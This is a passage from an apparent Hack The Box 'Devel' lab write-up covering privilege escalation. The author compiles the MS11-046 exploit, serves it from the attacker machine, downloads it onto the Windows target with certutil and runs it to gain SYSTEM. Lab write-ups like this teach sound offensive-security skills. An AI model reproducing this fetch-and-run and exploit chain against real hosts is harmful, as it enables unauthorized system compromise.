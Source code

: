 Need to install mingw so I can compile it:

```text
root@kali:~/htb/devel# apt-get install mingw-w64
root@kali:~/htb/devel# i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```

Start a webserver so I can get file from box:

```text
root@kali:~/htb/devel# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 …
```

Switch back to shell on box, use certutil to get the file and execute it:

```text
cd c:\Users\Public\Downloads
c:\Users\Public\Downloads> certutil -urlcache -f http://10.10.14.22/MS11-046.exe spen.exe
certutil -urlcache -f http://10.10.14.22/MS11-046.exe spen.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

Now check which user we are currently:

```text
c:\Users\Public\Downloads>whoami
iis apppool\web
```

Run exploit and check again:

```text
c:\Users\Public\Downloads>spen.exe
c:\Windows\System32>whoami
whoami
nt authority\system
```

I can now get the user and root flags, from the paths the same as above.
